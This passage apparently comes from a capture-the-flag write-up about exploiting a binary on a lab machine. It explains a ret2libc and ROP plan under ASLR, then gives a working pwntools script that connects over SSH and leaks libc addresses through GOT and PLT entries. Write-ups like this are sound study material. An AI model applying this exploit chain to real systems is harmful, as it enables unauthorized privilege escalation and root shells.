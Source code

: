 - Since **ASLR is enabled** on the target machine, we need to leak the address of the libc functions used in the binary at run-time and use those addresses to calculate the offset to the `system()` function within `libc`	.

- We will then re-execute `main()` with `ROP` (Return oriented programming) and replace the address of a function in the `.got.plt` table with the `system()` address and pass it the `/bin/sh`-string address (which can also be found in `libc`) as the argument.

If this is all too complicated, believe me it was a lot for me at first too.
I really reocmmend watching those resources I mentioned above to fully grasp what is going on here.

We can use pwntools to run the exploit remotely via ssh!

Using the exploit below, I'm able to leak the functions used by the binary wich are inside libc:
```python
from pwn import *

######################## Stage 1
user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

# Load the binary
context.binary = binary = ELF("./exploit_me", checksec=False)
_ROP = ROP(binary)


padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts) 
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

# Left-justify the returned hex so it can be unpacked.
puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")
```